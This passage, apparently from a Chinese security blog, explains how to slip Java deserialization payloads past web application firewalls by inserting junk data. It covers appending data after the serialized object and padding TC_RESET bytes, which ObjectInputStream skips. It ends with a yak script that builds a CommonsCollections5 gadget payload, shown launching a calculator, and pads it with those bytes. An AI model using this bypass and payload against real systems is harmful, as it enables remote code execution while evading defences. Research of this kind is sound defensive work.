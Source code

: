 ```
func readObject(stream) {
    flag = stream.readByte()
    ....
    readObject(stream)
}
```  
```

```  
  
读一下ObjectInputStream的流程，重点看一下可能塞脏数据的逻辑，发现了几个可利用的位置。  
  
  
**Append脏数据**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
#   
  
反序列化是从流中读取数据，当解析出一个完整对象就会结束反序列化流程。所以最简单暴力的方法就是直接append脏数据，但缺点是只能加到payload后，如果WAF只查前几个TCP报文，还是会被查。  
  
  
**TC_RESET**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
#   
  
在readObject0方法中看到这样一段代码  
```
byte tc;
while ((tc = bin.peekByte()) == TC_RESET) {
    bin.readByte();
    handleReset();
}
```  
```

```  
  
这段代码可以理解为忽略所有TC_RESET，并调用handleReset，handleReset的作用是清空handle表，在序列化刚开始时清空handle表是没有影响的。这段代码运行在readObject0的开头，所以可以理解为忽略序列化数据前的所有TC_RESET  
  
使用yak编写一段脚本验证猜想，成功弹出计算器。  
```

```  
```
serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~
dirtyData = ""
for range 100{
    dirtyData += "\x79"
}
res = string(payload[:4]) + dirtyData+ string(payload[4:])

println(codec.EncodeBase64(res))
```  
```



```  
  